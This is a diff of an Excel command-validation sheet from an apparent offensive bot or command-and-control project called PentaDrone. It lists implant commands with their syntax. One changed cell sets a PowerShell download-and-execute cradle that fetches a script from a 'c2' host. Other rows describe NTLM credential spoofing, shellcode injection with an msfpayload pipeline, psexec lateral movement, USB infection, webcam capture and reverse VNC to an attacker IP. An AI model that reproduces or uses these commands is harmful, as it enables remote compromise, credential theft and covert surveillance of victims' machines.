

Before and after one commit to benyG/PentaDrone, an Excel workbook: validate-cmd.xlsx, sheet Cmde state validation, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; conditional formats not drawn; removed rows and columns are numbered as before the commit, all else as after; rows hold the shown columns only; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/validate-cmd.xlsx (sheet Cmde state validation)
+++ b/validate-cmd.xlsx (sheet Cmde state validation)
-C25 (Validate CMD): !elevate
+C25 (Validate CMD): !runas
-E25 (Syntaxe): # !elevate|http://blahblah.com/fjdads/script.raw
+E25 (Syntaxe): # !runas|IEX(New-Object Net.WebClient).DownloadString("http://c2/link/pnt.ps1"))
@@ row 28 hidden: 27 | Credential access | !ntlmspoof |  | # !ntlmspoof - Use inveigh to peform Spoofing attack and capture various password (SMB, NTLM, HTTP, WPAD ...) @@
@@ row 29 hidden: 28 | Execution | !webinject |  | # !webinject - Use interceptor.ps1 to inject html content in every web request @@
@@ row 31 hidden: 30 | Lateral Move | !pivot |  | # !pivot - download psexec, use credential and push bot in every ip in the LAN @@
@@ row 32 hidden: 31 | Delivery | !ngrok | medium | # !ngrok|AUTHKEYAUTHKEY|http|80 - Expose zombie(TCP/IP) PC to Internet so that you can connect any tools @@
@@ row 33 hidden: 32 | Lateral Move | !psexec |  | # !psexec|domain\admin|password|192.168.3.202|powershell.exe 'calc.exe' - download psexec, use credential and push bot in targeted ip @@
@@ row 34 hidden: 33 | Execution | !shellcode |  | # !shellcode|@(0x90,0x90,0xC3) - Inject the specifyed shellcode. msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- @@
@@ row 35 hidden: 34 | Persistence | !usbspread |  | # !usbspread|on|YwBhAGwAYwA= - Infect USB with malicious lnk @@
@@ row 36 hidden: 35 | Trolling | !wallpaper |  | # !wallpaper|http://wallpapercave.com/wp/ky43p3I.jpg/|c:\windows\temp\1.jpg @@
@@ row 37 hidden: 36 | Collection | !webcam | Good | # !webcam @@
@@ row 38 hidden: 37 | Collection | !screenshot | Good | # !screenshot @@
-row 39: 38 | Discovery | !geolocate | medium | !geolocate
-row 40: 39 | Discovery | !geolocategps |  | !geolocategps
@@ row 41 hidden: 40 | Command Control | !wshell |  | # !wshell|8080 - use it with !tunnel to expose localhost port 8080 over Internet @@
@@ row 42 hidden: 41 | Command Control | !jsrat | medium | # !jsrat|192.168.10.96 # Handle connexion with: powershell.exe -Exe Bypass -File c:\test\JSRat.ps1 & change listening IP ADDRESS in jsrat file @@
@@ row 43 hidden: 42 | Command Control | !vnc | No | # !vnc|bind||5900|pass1234 OR §vnc|reverse|IP_of_attacker|5500|pass1234 @@
```
Also changed, not shown: 1 added row, 14 removed rows and 63 hidden or unhidden rows elsewhere in this sheet, hidden cells, 15 other files.
